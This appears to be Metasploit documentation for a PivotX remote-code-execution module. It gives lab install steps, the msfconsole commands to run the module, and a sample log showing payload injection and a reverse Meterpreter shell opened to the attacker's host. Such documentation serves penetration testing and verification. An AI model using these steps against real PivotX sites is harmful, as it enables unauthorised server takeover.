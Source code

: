 ## Vulnerable Application

PivotX is free software to help you maintain dynamic sites such as weblogs, online journals and other frequently updated websites in general.
It's written in PHP and uses MySQL or flat files as a database.

Install steps:

1. Install Apache2, MySQL, PHP8.2+
1. `git clone https://github.com/pivotx/PivotX.git`
1. Move `PivotX` to webfolder
1. Run the following from the web folder `sudo chown -R www-data:www-data ./`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/pivotx_rce`
1. Do: `set USERNAME [PivotX username]`
1. Do: `set PASSWORD [PivotX password]`
1. Do: `set RHOSTS [target IP]`
1. Do: `set LHOST [attacker IP]`
1. Do: `run`

## Options

### USERNAME

PivotX username.

### PASSWORD

PivotX password.

## Scenarios

```
msf exploit(linux/http/pivotx_index_php_overwrite) > run verbose=true 
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected PivotX 3.0.0.pre.rc3
[*] Logging in PivotX
[*] Modifying file and injecting payload
[*] Triggering payload
[*] Sending stage (40004 bytes) to 192.168.168.146
[*] Meterpreter session 1 opened (192.168.168.128:4444 -> 192.168.168.146:36104) at 2025-08-01 09:38:52 +0200

[*] Restoring original content

meterpreter > 
meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 6.8.0-52-generic #53~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Wed Jan 15 19:18:46 UTC 2 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data

```
